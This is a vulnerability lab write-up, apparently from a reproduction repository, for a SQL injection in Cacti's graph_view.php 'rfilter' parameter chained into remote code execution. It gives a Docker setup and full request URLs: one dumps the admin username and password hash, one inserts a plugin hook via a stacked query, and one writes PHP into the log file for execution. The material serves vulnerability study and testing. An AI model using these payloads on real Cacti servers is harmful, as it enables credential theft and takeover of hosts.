



# Cacti graph_view.php SQL Injection Leads to RCE (CVE-2023-39361/CVE-2024-31459)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a complete network graphing solution designed to harness the power of RRDTool's data storage and graphing functionality, providing network managers with an intuitive interface to network data.

In Cacti versions 1.2.24 and earlier, a critical vulnerability exists in graph_view.php that allows guest users to perform SQL injection via the 'rfilter' parameter. When guest access is enabled, attackers can potentially cause significant damage, including remote code execution.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## Environment Setup

Execute the following command to start a Cacti 1.2.24 server:

```
docker compose up -d
```

After the server starts, you can access the Cacti interface at `http://your-ip:8080`. The default credentials are admin/admin.

Log in as admin and follow the initialization instructions. Simply click the "Next" button repeatedly until you see the success page.

Before exploiting the vulnerability without authentication, you must enable guest access. Log in as admin, navigate to `Configuration -> Authentication`, and enable the guest user:



## Vulnerability Reproduction

The vulnerability exists in the `grow_right_pane_tree` function in `graph_view.php`. When the 'action' parameter is set to 'tree_content', the user input ('rfilter' parameter) is validated through the `html_validate_tree_vars` function, but this validation only ensures that the input is a valid regular expression and doesn't prevent SQL injection.

The SQL injection occurs because the rfilter parameter is directly inserted into a SQL query with double quotes, allowing attackers to escape the query context and inject malicious SQL code.

To exploit this vulnerability, send a request to the graph_view.php endpoint with the following parameters:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

The output reveals database information and admin account password:



Since Cacti supports stacked queries, you can leverage this vulnerability along with [CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv) to achieve local file inclusion.

First, add a new plugin hook that points to the `log/cacti.log` file:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

Then, write PHP code to the `log/cacti.log` file using an error-based SQL injection:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

Now, the PHPINFO function will execute and display when accessing the login page, confirming successful remote code execution:


